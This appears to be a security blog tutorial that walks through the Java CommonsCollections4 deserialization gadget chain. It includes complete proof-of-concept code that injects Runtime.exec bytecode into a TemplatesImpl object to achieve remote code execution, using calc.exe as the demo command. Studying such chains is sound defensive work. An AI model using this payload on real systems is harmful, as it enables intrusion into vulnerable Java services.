

CommonsCollection4
Just like CommonsCollections1 and CommonsCollections3, CommonsCollections2 and CommonsCollections4 are essentially the same, with a few differences.
Instead of using only the InvokerTransformer, we use a chain of ConstantTransformer and InstantiateTransformer, and pass it to the TransformingComparator.
The rest remains the same.
So, let's jump straight into the payload and see how it works.
Since we already covered how InstantiateTransformer works in CommonsCollections3, here we'll focus on its interaction with PriorityQueue.
If you're not familiar with InstantiateTransformer, I recommend reviewing CommonsCollections2 first.
With that said, here's what the payload looks like:
Object templates = Gadgets.createTemplatesImpl(command); //1 ConstantTransformer constant = new ConstantTransformer(String.class); //2 // 3 Class[] paramTypes = new Class[] { String.class }; Object[] args = new Object[] { "foo" }; InstantiateTransformer instantiate = new InstantiateTransformer( paramTypes, args); // 4 paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes"); args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs"); ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate }); // 5 PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain)); queue.add(1); queue.add(1); // 6 Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class); paramTypes[0] = Templates.class; args[0] = templates; return queue;
Instead of using InvokerTransformer, we use InstantiateTransformer.
As you know, InstantiateTransformer takes a class and initializes it with the arguments we provide.
Why we use TrAXFilter.class (and related details) was already discussed in CC3.
Let's focus on what the code above does.
At [1] we instantiate a ConstantTransformer with String.class. Once a ConstantTransformer is created, it cannot change its return value (without reflection).
So it always returns String.class.
At [3] we prepare the constructor parameter types and arguments for InstantiateTransformer and pass them in.
We choose String.class and "foo" because the InstantiateTransformer will look for a constructor on the class provided by the previous transformer (currently String.class) whose signature matches the given parameter types, and then call it with the provided arguments.
Since String has a constructor String(String), we pass "foo" as the value.
At [4] we read the fields iParamTypes and iArgs from the InstantiateTransformer (via reflection) so we can replace them with our own values later.
At [5] we create a PriorityQueue with a TransformingComparator that wraps our ChainedTransformer, and then add elements to the queue.
These become the obj1 and obj2 seen in TransformingComparator.compare().
At [6] we change the constant inside ConstantTransformer from String.class to TrAXFilter.class.
Now, if we put all of the above together…
- Instantiate the
ConstantTransformerwithTrAXFilter.class - Instantiate the
InstantiateTransformerwithTemplates.classand the value astemplates(that we obtained from step 1) - Create the
ChainedTransformerwithConstantTransformerandInstantiateTransformer - Instantiate the
PriorityQueuewith theTransformingComparatorusingChainedTransformeras the transformer - Add any random value into the
PriorityQueue
So the whole above code can look like below
Object templates = Gadgets.createTemplatesImpl(command); ConstantTransformer constant = new ConstantTransformer(TrAXFilter.class); Class[] paramTypes = new Class[] { Templates.class }; Object[] argst = new Object[] { templates }; InstantiateTransformer instantiate = new InstantiateTransformer(paramTypes, argst); ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate }); PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain)); queue.add(1); queue.add(1);
Question:
How are we adding 1 into priority Queue but still achieving Code Execution?
Answer:
So whatever we add into the priorityQueue as queue.add never gets used.
So From the priorityQueue the code flows to the transFormingCompartor.compare().
Here the obj1 and obj2 are the values we pass via queue.add()
Now in the transformer.apply() , here the transformer is ChainedTransFormer, and if you see the chainedTrasformer's transform Code
@Override
public T transform(T object) {
for (final Transformer<? super T, ? extends T> iTransformer : iTransformers) {
object = iTransformer.apply(object);
}
return object;
}
So it iterates over the list , inout case its ConstantTransformer and InstantiateTransformer and calls the transForm() on them.
-
once we Instantiate ConstantTransformer () no matter what we pass to the transform() it will alwasy return the instantied Value and in our case it will be TraXFilter.class
-
- For the InstantiateTransformer , the Object Passed from the queue.add has alredybeen overwritten from the output of ConstantTransformer due to the Below code
object = iTransformer.apply(object);
Even if we pass 1 via queue.add(), by the time it reaches the InstantiateTransformer it has already been replaced by TrAXFilter.class by the preceding ConstantTransformer.
That's why it doesn't matter whether we add 1, 2, or any other value. (Note: since we're using a PriorityQueue<Object>, we can enqueue any object; if you use a typed queue, you'll be restricted by that element type.)
With that in mind, the modified code — including TemplatesImpl creation — for the CommonsCollections4 gadget looks like this:
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl; import java.lang.reflect.Field; import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet; import javassist.ClassClassPath; import javassist.ClassPool; import javassist.CtClass; import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter; import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl; import java.util.PriorityQueue; import javax.xml.transform.Templates; import org.apache.commons.collections4.functors.*; import org.apache.commons.collections4.Transformer; import org.apache.commons.collections4.comparators.TransformingComparator; public class cc4 { public static void main(String[] args) throws Exception { String command = "calc.exe"; ClassPool pool = ClassPool.getDefault(); /* * So inside the pool.get() we can pass any random existing className , we just have to keep in mind that we call * clazz.makeClassInitializer().insertAfter(cmd); and CtClass superC = pool.get(AbstractTranslet.class.getName()); * clazz.setSuperclass(superC); * * Reason for calling the above 2 are. * 1.In TemplatesIMPL Class when we set the _byteCode to a bytecode of ourchoice, our bytecode must be extending the * AbstractTranslet.class or else TemplatesIMPL will not execute it(Figure out why) */ final CtClass clazz = pool.get(cc4.class.getName()); String cmd = "java.lang.Runtime.getRuntime().exec(\"" + command.replace("\\", "\\\\").replace("\"", "\\\"") + "\");"; clazz.makeClassInitializer().insertAfter(cmd); CtClass superC = pool.get(AbstractTranslet.class.getName()); clazz.setSuperclass(superC); final byte[] classBytes = clazz.toBytecode(); byte[] maliciousBytecode = classBytes; /* * Till Line 58 we are creating an Object of TemplatesIMPL class and using reflection to set the _bytecode,_name and * _tfactory , as these are necessary fields. * Why can't we use the normal getters and setters(FigureOut) */ TemplatesImpl templates = new TemplatesImpl(); Field bytecodesField = TemplatesImpl.class.getDeclaredField("_bytecodes"); bytecodesField.setAccessible(true); bytecodesField.set(templates, new byte[][]{maliciousBytecode}); Field nameField = TemplatesImpl.class.getDeclaredField("_name"); nameField.setAccessible(true); nameField.set(templates, "Exploit"); Field tfacname = TemplatesImpl.class.getDeclaredField("_tfactory"); tfacname.setAccessible(true); tfacname.set(templates, TransformerFactoryImpl.class.newInstance()); //templates.newTransformer(); ConstantTransformer constant = new ConstantTransformer(TrAXFilter.class); Class[] paramTypes = new Class[] { Templates.class }; Object[] argst = new Object[] { templates }; InstantiateTransformer instantiate = new InstantiateTransformer(paramTypes, argst); ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate }); PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain)); queue.add(1); queue.add(1); } }

This is how the CommonsCollection4 Payload works, staring from the EntryPoint to Code Execution
Summary:
- The payload uses a combination of
ConstantTransformerandInstantiateTransformerchained together. ConstantTransformeralways returnsTrAXFilter.class, regardless of input.InstantiateTransformerattempts to create a new instance ofTrAXFilterusing aTemplatesImplobject we control.- A
TransformingComparatoris created using the above chained transformer, and passed to aPriorityQueue. - When the queue is deserialized or sorted,
compare()callstransform()on the chained transformers. - Even though we added integers (1, 1) to the queue, the values are overwritten by the transformer logic during comparison.
- This leads to
TrAXFilterinstantiation → triggering the bytecode inTemplatesImpl→ RCE.
Thats it for Today.
Thanks For Reading.
Happy Hacking.
You can connect with me at: